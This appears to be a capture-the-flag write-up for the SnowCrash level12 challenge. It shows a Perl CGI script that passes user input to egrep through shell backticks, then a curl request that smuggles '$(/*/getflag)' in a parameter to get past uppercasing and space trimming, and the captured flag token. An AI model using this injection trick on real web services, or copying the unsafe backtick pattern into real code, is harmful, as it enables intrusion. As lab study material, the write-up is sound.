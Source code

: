 In the home directory you will found the following perl script:

``` perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

Assuming that this script is runing in the background, we will have an http server with a system call that we can exploit, the only problem is that the parameter given to this system call, is previously modified, making all characters uppercase, and triming all the spaces, so one work around can be this:

``` shell
level12@SnowCrash:~$ echo "getflag > /tmp/flag" > /tmp/GETFLAG;
level12@SnowCrash:~$ chmod +x /tmp/GETFLAG
level12@SnowCrash:~$ curl http://localhost:4646/?x='$(/*/getflag)'&y=''
[1] 2513
level12@SnowCrash:~$ ..
[1]+  Done                    curl http://localhost:4646/?x='$(/*/getflag)'
level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
level12@SnowCrash:~$ 
```
